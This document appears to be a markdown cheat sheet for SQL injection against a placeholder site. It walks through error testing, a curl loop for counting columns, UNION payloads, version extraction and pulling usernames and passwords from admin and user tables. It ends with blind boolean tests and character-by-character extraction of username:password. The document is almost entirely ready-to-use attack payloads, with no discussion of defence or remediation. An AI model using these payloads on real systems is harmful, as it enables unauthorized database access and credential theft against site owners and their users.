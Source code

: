 # SQL Injection

## Basic Example
The following URL serves a page based on the ID number passed to it in the URL.

`https://website.com/pages?id=3`

For an SQL injection to work, this URL needs to be mishandled on the backend. Similar to this:

```
<?php
$id = $_GET['id'];
$query = "SELECT title, content FROM Pages WHERE id == $id;"
```

## Basic Test
The easiest way to test for an SQL injection vulnerability is to throw a `'` into the string. If the application is vulnerable you will see an error similar to:

```
You have an error in your SQL syntax; check the manual that corresponds t oyour MySQL server version for the right.."
```


## Enumerate the columns in the database
Use the `ORDER BY` statement to uncover the number of columns in a table. 

```
x=1
limit=10
while [ $x -le $limit ]
do
    curl https://website.com/pages?id=3 order by $x/*
done
```

At a certain point you will see the error: `(Unkown column '5' in 'order clause')` which will indicate that you have hit the maximum of 4 columns. 

## Test the UNION function
Make sure to test both methods of commenting if one does not work.

`https://website.com/pages?id=3 union all select 1,2,3,4/*`

`https://website.com/pages?id=3 union all select 1,2,3,4--`

## Get SQL Version Number
This will help us determine if we can exploit this version of SQL

`https://website.com/pages?id=3 union all select 1,2,@@version,4/*`


## Enumerate Tables & Columns (version < 5.0)
Pass column names into the query string to attempt to find usernames and passwords.

```
https://website.com/pages?id=3 union all select 1,2,username,4 from admin/*
https://website.com/pages?id=3 union all select 1,2,password,4 from admin/*
```

## Blind Testing
`https://website.com/pages?id=3 and 1=1`

`https://website.com/pages?id=3 and 1=2`

### Get Version
Change the version number (5) as needed 

`https://website.com/pages?id=3 and substring(@@version,1,1)=5`

### Subselect Testing
If the page does not throw an error, the statement will work.

`https://website.com/pages?id=3 and (select 1)=1`

To access the user

`https://website.com/pages?id=3 and (select 1 from mysql.user limit 0,1)=1`


### Checking table names
`https://website.com/pages?id=3 and (select 1 from users limit 0,1)=1`


### Checking column names
`https://website.com/pages?id=3 and (select substring(concat(1,password),1,1) from users limit 0,1)=1`

### Exploiting the vulnerability
This query will retrieve a single string (username:password) from the database, take the first character and convert it to it's ascii code. You will want to increase the index of the character in order to enumerate the entire username and password.

`https://website.com/pages?id=3 and ascii(substring((select concat(username,0x3a,password) from users limit 0,1),1,1)) > 80

`ascii()` - return the ascii character code

`substring(username:password, 1,1)` - return the first character in the user:pass string

`concat(username, 0x3a, password)` - concat username:password

`> 80` - Execute Select query if the ascii character code > 80









 
